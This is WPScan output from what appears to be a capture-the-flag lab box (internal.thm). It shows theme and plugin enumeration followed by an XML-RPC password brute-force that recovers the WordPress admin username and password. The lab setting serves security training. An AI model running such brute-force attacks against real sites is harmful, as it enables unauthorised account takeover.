 [+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2020-08-11T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.4
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <==================> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys
Trying admin / bratz1 Time: 00:02:33 <===================> (3885 / 3885) 100.00% Time: 00:02:33

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Sat Oct 17 18:41:32 2020
[+] Requests Done: 3910
[+] Cached Requests: 32
[+] Data Sent: 1.906 MB
[+] Data Received: 2.295 MB
[+] Memory used: 833.793 MB
[+] Elapsed time: 00:03:34
